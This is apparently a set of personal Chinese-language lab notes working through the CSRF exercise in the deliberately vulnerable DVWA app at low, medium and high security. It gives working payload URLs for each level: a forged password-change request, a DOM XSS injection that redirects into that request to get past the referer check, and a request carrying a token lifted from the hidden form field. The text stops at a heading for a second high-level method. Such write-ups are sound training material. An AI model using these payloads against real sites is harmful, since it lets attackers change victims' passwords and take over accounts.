 ![image-20231009203013048](C:\Users\27682\AppData\Roaming\Typora\typora-user-images\image-20231009203013048.png)



## dvwa csrf

### low

为get类型,所以直接在地址栏更改就可以

#### payload

```
http://127.0.0.1/DVWA-master/vulnerabilities/csrf/?password_new=password&password_conf=password&Change=Change#
```

![image-20231009204542911](C:\Users\27682\AppData\Roaming\Typora\typora-user-images\image-20231009204542911.png)



### medium

添加了referer认证,所以我们需要从别的页面跳转过来,让网页自带referer,所以我们选择XSS(DOM)这个页面,先写一个XSS注入,然后script中写跳转到CSRF中,我们的payload需要先完成xss注入

#### payload

```php+HTML
http://192.168.1.187/DVWA-master/vulnerabilities/xss_d/?default=</option></select><img src="x" onerror="location.href='http://192.168.1.187/DVWA-master/vulnerabilities/csrf/?password_new=123456&password_conf=123456&Change=Change#'">
```

![image-20231009210939488](C:\Users\27682\AppData\Roaming\Typora\typora-user-images\image-20231009210939488.png)



### high

#### 思路简单的方法

添加了token认证但是token也是在前端的隐藏域,token会在更改一次密码后有一个在网页源码中

相当于token会在你修改过一次值后失效,但是会有一个新的token在你修改完成后被`隐藏域`带到前端,我只需要`在浏览器的控制台`获取新的token就能修改你的值,但是一般来说比较不现实

#### payload

```html
http://127.0.0.1/DVWA-master/vulnerabilities/csrf/?password_new=123456&password_conf=123456&Change=Change&user_token=611850b120c6c46c0d26fc10f3514501#
```

![image-20231010094210399](C:\Users\27682\AppData\Roaming\Typora\typora-user-images\image-20231010094210399.png)

#### 一劳永逸的方法
